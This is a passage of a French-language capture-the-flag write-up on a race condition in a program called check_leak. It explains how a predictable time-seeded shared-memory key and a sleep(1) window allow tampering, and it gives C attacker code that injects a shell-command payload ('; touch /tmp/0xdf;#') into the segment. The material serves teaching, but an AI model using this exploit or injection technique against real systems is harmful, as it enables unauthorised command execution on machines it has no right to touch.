***

### <mark style="color:$danger;">5. Race Conditions et Timing Attack</mark>

#### <mark style="color:$success;">5.1 Qu'est-ce qu'une Race Condition ?</mark>

Une race condition survient quand le comportement d'un programme dépend de l'ordre d'exécution de plusieurs threads/processus.

**Dans notre cas :**

```c
// Processus 1 (check_leak)
write_to_shm(hash);          // Écrit données légitimes
sleep(1);                    // FENÊTRE CRITIQUE
notify_user(..., shm_key);   // Lit les données

// Processus 2 (attaquant)
// Pendant le sleep(1), modifie le contenu de la mémoire partagée
```

#### <mark style="color:$success;">5.2 Exploitation du Timing</mark>

```c
// Code de l'attaquant
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include <sys/shm.h>

int main() {
    // Même algorithme de génération de clé
    time_t now = (unsigned int) time(NULL);
    srand(now);
    int key = rand() % 0xfffff;
    
    // Accès au même segment
    int shmid = shmget(key, 0x400, 0x3b6);
    char *h_shm = shmat(shmid, (void *) 0, 0);
    
    // Injection du payload
    snprintf(h_shm, 0x400, "Leaked hash detected at whenever > '; touch /tmp/0xdf;#");
    
    shmdt(h_shm);
    return 0;
}
```

**Stratégie d'attaque :**

1. Prédire la clé de mémoire partagée
2. Boucler continuellement pour empoisonner la mémoire
3. Déclencher l'exécution du programme vulnérable
4. Exploiter la fenêtre temporelle du `sleep(1)`
